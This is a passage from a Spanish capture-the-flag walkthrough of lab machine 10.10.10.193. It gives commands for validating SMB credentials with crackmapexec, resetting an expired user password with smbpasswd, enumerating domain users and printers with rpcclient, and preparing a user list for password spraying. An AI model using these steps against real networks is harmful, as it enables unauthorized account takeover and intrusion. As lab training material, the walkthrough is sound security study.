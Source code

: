 ````bash
```bash
crackmapexec smb 10.10.10.193 -u "bhult" -p 'S4vitar123$!'
```

Ya vemos que hay un *[+]* lo que quiere decir que tenemos credenciales validas.

Intentamos connectarnos con rpcclient

```bash
rpcclient -U 'bhult%S4vitar123$!' 10.10.10.193
```

Nos pone un logon failure. Nos hace pensar que hay como una tarea que cambia la contraseña despues de un momento, intentamos hacer
lo mismo pero un poco mas rapido.

```bash
smbpasswd -r 10.10.10.193 -U "bhult"
> Old SMB password: Fabricorp01
> New SMB password: S4vitar123$!
> Retype new SMB password: S4vitar123$!

Password changed for user bhult on 10.10.10.193

rpcclient -U 'bhult%S4vitar123$!' 10.10.10.193
```

Ya estamos a dentro.

### Enumerando la maquina con rpcclient {-}

```bash
enumdomusers
```

Como hay un printer, tambien se puede enumerar impresoras.

```bash
enumprinters
```

Aqui nos sale una contraseña.

1. Copiamos los usuarios

    ```bash
    echo "user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[svc-print] rid:[0x450]
    user:[bnielson] rid:[0x451]
    user:[sthompson] rid:[0x641]
    user:[tlavel] rid:[0x642]
    user:[pmerton] rid:[0x643]
    user:[svc-scan] rid:[0x645]
    user:[bhult] rid:[0x1bbd]
    user:[dandrews] rid:[0x1bbe]
    user:[mberbatow] rid:[0x1db1]
    user:[astein] rid:[0x1db2]
    user:[dmuir] rid:[0x1db3]" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users
    ```

1. Checkeamos con crackmapexec que usuario tiene la contraseña encontrado con enumprinters

````